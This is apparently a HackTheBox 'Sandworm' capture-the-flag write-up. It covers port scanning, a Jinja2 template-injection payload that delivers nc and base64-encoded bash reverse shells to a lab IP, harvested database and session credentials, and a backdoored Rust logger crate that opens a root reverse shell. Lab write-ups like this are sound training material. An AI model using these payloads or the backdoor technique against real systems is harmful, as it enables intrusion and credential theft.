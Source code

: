 # #1 Introduction
<img width="692" alt="image" src="https://github.com/Mate0r/app.hackthebock.com/assets/94843357/d90f6781-091a-411d-857d-83aac3e84515">

# #2 nmap

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx sandworm.htb
```

we run an nmap scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -sV -p- sandworm.htb
```

we got these open ports
```bash
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# #3 user.txt

## HTTP (port 80)


about                   [Status: 200, Size: 5584, Words: 1147, Lines: 77, Duration: 211ms]
admin                   [Status: 302, Size: 227, Words: 18, Lines: 6, Duration: 81ms]
contact                 [Status: 200, Size: 3543, Words: 772, Lines: 69, Duration: 55ms]
guide                   [Status: 200, Size: 9043, Words: 1771, Lines: 155, Duration: 73ms]
login                   [Status: 200, Size: 4392, Words: 1374, Lines: 83, Duration: 78ms]
logout                  [Status: 302, Size: 229, Words: 18, Lines: 6, Duration: 71ms]
pgp                     [Status: 200, Size: 3187, Words: 9, Lines: 54, Duration: 110ms]
process                 [Status: 405, Size: 153, Words: 16, Lines: 6, Duration: 89ms]
view                    [Status: 302, Size: 225, Words: 18, Lines: 6, Duration: 110ms]


.gpg
.asc
.sig
.key



https://www.wired.co.uk/article/efail-pgp-vulnerability-outlook-thunderbird-smime

https://efail.de/

we can use a ssti (sever side template injection) by using the RealName of the public key generated and verifying signature of message\
by using {{ 7 * 7 }} for example, we can see that the code is executed cause we have a web template engine named jinja2 (in python)\

So to get a reverse shell, we can use this crafted payload:

{{ self.__init__.__globals__.__builtins__.__import__('os').popen('which id').read() }}


rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.56 6666 >/tmp/f \
en base64 \
cm0gLWYgL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuMTAuMTUuNTYgNjY2NiA+L3RtcC9mCg== \


{{ self.__init__.__globals__.__builtins__.__import__('os').popen('echo "YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS41Ni82NjY2IDA+JjEiCg==" | base64 -d | bash').read() }}

we are now atlas\
in app.py file, we found a passphrase : $M1DGu4rD$

in the __init__.py file, we found the sql credentials : \

app.config['SECRET_KEY'] = '91668c1bc67132e3dcfb5b1a3e0c5c21' \
app.config['SQLALCHEMY_DATABASE_URI'] = 'mysql://atlas:GarlicAndOnionZ42@127.0.0.1:3306/SSA'\


to connect to sql since we don't have binaries, we can use python3 and the db module since we now it's available by looking in home/.\

```
drwxrwxr-x 23 atlas atlas  4096 Feb  2  2023 .
drwxrwxr-x  3 atlas atlas  4096 Nov 30  2022 ..
drwxrwxr-x  3 atlas atlas  4096 Feb  2  2023 backports
drwxrwxr-x  2 atlas atlas  4096 Feb  2  2023 configparser-5.3.0.dist-info
-rw-rw-r--  1 atlas atlas  1546 Feb  2  2023 configparser.py
drwxrwxr-x  4 atlas atlas  4096 Feb  2  2023 flask
drwxrwxr-x  2 atlas atlas  4096 Feb  2  2023 Flask-2.2.2.dist-info
drwxrwxr-x  3 atlas atlas  4096 Feb  2  2023 flask_login
drwxrwxr-x  2 atlas atlas  4096 Feb  2  2023 Flask_Login-0.6.2.dist-info
drwxrwxr-x  3 atlas atlas  4096 Feb  2  2023 flask_sqlalchemy
drwxrwxr-x  3 atlas atlas  4096 Feb  2  2023 Flask_SQLAlchemy-3.0.3.dist-info
-rw-rw-r--  1 atlas atlas 57134 Nov 30  2022 gnupg.py
drwxrwxr-x  5 atlas atlas  4096 Feb  2  2023 greenlet
drwxrwxr-x  2 atlas atlas  4096 Feb  2  2023 greenlet-2.0.2.dist-info
drwxrwxr-x  3 atlas atlas  4096 Feb  2  2023 markupsafe
drwxrwxr-x  2 atlas atlas  4096 Feb  2  2023 MarkupSafe-2.1.2.dist-info
drwxrwxr-x  2 atlas atlas  4096 Feb  2  2023 mysqlclient-2.1.1.dist-info
drwxrwxr-x  4 atlas atlas  4096 Feb  2  2023 MySQLdb
drwxrwxr-x  2 atlas atlas  4096 May  4  2023 __pycache__
drwxrwxr-x  2 atlas atlas  4096 Nov 30  2022 python_gnupg-0.4.3.dist-info
drwxrwxr-x 15 atlas atlas  4096 Feb  2  2023 sqlalchemy
drwxrwxr-x  2 atlas atlas  4096 Feb  2  2023 SQLAlchemy-2.0.1.dist-info
drwxrwxr-x  2 atlas atlas  4096 Feb  2  2023 typing_extensions-4.4.0.dist-info
-rw-rw-r--  1 atlas atlas 80078 Feb  2  2023 typing_extensions.py
drwxrwxr-x  8 atlas atlas  4096 Feb  2  2023 werkzeug
drwxrwxr-x  2 atlas atlas  4096 Feb  2  2023 Werkzeug-2.2.2.dist-info
```

((b'1', b'Odin', b'pbkdf2:sha256:260000$q0WZMG27Qb6XwVlZ$12154640f87817559bd450925ba3317f93914dc22e2204ac819b90d60018bc1f'),)
((b'2', b'silentobserver', b'pbkdf2:sha256:260000$kGd27QSYRsOtk7Zi$0f52e0aa1686387b54d9ea46b2ac97f9ed030c27aac4895bed89cb3a4e09482d'),)


home/atlas/.config/httpie/sessions/localhost_5000/admin.json
silentobserver:quietLiketheWind22





/sbin/init maybe-ubiquity 
2023/11/15 15:12:11 CMD: UID=0     PID=28613  | /bin/bash /root/Cleanup/clean_c.sh 
2023/11/15 15:12:11 CMD: UID=0     PID=28614  | /bin/rm -r /opt/crates 
2023/11/15 15:12:11 CMD: UID=0     PID=28615  | 
2023/11/15 15:12:11 CMD: UID=0     PID=28616  | /usr/bin/chmod u+s /opt/tipnet/target/debug/tipnet
/usr/bin/cargo run --offline 
2023/11/15 15:14:01 CMD: UID=1000  PID=28636  | /usr/bin/cargo run --offline 
2023/11/15 15:14:01 CMD: UID=1000  PID=28638  | rustc - --crate-name ___ --print=file-names --crate-type bin --crate-type rlib --crate-type dylib --crate-type cdylib --crate-type staticlib --crate-type proc-macro --print=sysroot --print=cfg                                                      
2023/11/15 15:14:01 CMD: UID=1000  PID=28640  | /usr/bin/cargo run --offline 
2023/11/15 15:14:11 CMD: UID=0     PID=28645  | /bin/bash /root/Cleanup/clean_c.sh
/bin/sh -c cd /opt/tipnet && /bin/echo "e" | /bin/sudo -u atlas /usr/bin/cargo run --offline



/opt/crates/logger/src/lib.rs is writable


extern crate chrono;

use std::fs::OpenOptions;
use std::io::Write;
use chrono::prelude::*;
use std::process::Command;

pub fn log(user: &str, query: &str, justification: &str) {
    Command::new("bash")
        .arg("-c")  
        .arg("bash -i >& /dev/tcp/10.10.15.56/6666 0>&1")
        .output()
        .expect("failed to execute process");

    let now = Local::now();
    let timestamp = now.format("%Y-%m-%d %H:%M:%S").to_string();
    let log_message = format!("[{}] - User: {}, Query: {}, Justificatio>

    let mut file = match OpenOptions::new().append(true).create(true).o>
        Ok(file) => file,
        Err(e) => {
            println!("Error opening log file: {}", e);
            return;
        }
    };

    if let Err(e) = file.write_all(log_message.as_bytes()) {
        println!("Error writing to log file: {}", e);
    }
}

